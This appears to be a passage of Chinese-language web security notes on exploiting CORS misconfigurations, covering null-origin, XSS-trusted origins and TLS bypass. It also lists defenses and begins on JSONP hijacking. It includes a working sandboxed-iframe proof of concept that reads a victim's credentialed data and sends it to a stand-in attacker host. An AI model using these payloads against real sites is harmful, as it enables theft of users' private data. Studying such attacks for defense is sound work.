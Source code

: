 https://www.corben.io/advanced-cors-techniques/  
https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397
### null origin Header
Origin header头支持值为null,在以下情况可能会发送null Origin Header.  
1. 跨域重定向.
2. 序列化数据请求.
3. 使用file:协议的请求
4. 沙盒跨域请求.
有些应用为了支持本地开发时方便,也会将null值加入白名单中,这导致可以通过null origin Header来跨域读取数据.  
通过沙盒的iframe标签发送带null origin Header的跨域请求.
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```
### 存在XSS的受信任源
当正确配置CORS名单时,如果白名单中的域存在XSS,那么则可以利用存在XSS的网站通过CORS来获取网站的敏感数据.
```
https://subdomain.vulnerable-website.com/?xss=<script>cors poc</script>
```
### 绕过TLS加密
如果应用使用https,但白名单允许使用http协议的网站进行交互,则可能导致中间人攻击.
1. 攻击者拦截受害者的任意http请求,并将其重定向到白名单内的http协议网站.
2. 拦截到白名单http协议网站的请求,在响应中注入对https应用的CORS请求.
3. 浏览器请求使用https的应用获取敏感数据,因为来源在白名单中,敏感数据被返回.
4. 攻击者收到响应中的敏感数据.
## 防御
1. 正确配置跨域请求
如果 Web 资源包含敏感信息，则应在标头中正确指定源。Access-Control-Allow-Origin
2.仅允许受信任的站点
这似乎是显而易见的，但标头中指定的来源应仅是受信任的站点。特别是，动态反映来自跨源请求的源而无需验证是很容易被利用的，应避免使用。Access-Control-Allow-Origin
3.避免将空列入白名单
避免使用标头 。来自内部文档和沙盒请求的跨源资源调用可以指定源。应根据专用服务器和公共服务器的受信任源正确定义 CORS 标头。Access-Control-Allow-Origin: nullnull
4.避免在内部网络中使用通配符
避免在内部网络中使用通配符。当内部浏览器可以访问不受信任的外部域时，仅信任网络配置来保护内部资源是不够的。
5.CORS 不能替代服务器端安全策略
CORS定义了浏览器行为，绝不能替代服务器端对敏感数据的保护 - 攻击者可以直接伪造来自任何受信任来源的请求。因此，除了正确配置的 CORS 之外，Web 服务器还应继续对敏感数据（如身份验证和会话管理）应用保护。
## 其它跨域解决方案
### 通过jsonp跨域
Jsonp(JSON with Padding) 是 json 的一种"使用模式"，可以让网页从别的域名（网站）那获取资料，即跨域读取数据。它利用的是script标签的 src 属性不受同源策略影响的特性，使网页可以得到从其他来源动态产生的 json 数据，因此可以用来实现跨域读取数据.  
#### jsonp劫持
当网站通过 JSONP 方式传递用户敏感信息时，攻击者可以伪造 JSONP 调用页面，诱导被攻击者访问来达到窃取用户信息的目的；jsonp 数据劫持就是攻击者获取了本应该传给网站其他接口的数据.  
其实就是客户端A需要访问B的数据时,先在本地写一个回调函数用于处理获取的数据,然后访问B提供的jsonp接口,并在callback参数填写本地的回调函数,这样B返回信息后会自动调用callback函数,如果整个过程中缺少安全认证的话则可以用类似于CSRF的方式诱导受害者访问恶意页面后获取到其敏感的json数据.
```javascript
function myData(data) {
    console.log('[!] DATA: ', data);
```